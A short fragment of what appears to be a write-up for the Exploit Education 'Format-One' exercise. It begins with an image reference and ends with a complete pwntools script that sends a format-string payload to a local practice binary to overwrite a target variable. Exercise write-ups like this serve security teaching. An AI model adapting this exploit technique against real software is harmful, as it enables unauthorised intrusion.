 

Final Exploit:
```python
from pwn import *

# create a process with attached ELF
p = process('./vuln')

# variables
changeme = 0x45764f6c

# payload
payload = b'%32x'
payload += p64(changeme)

# the usual
p.recvuntil(b'Welcome to Format-One, brought to you by https://exploit.education')

p.sendline(payload)

p.interactive()
```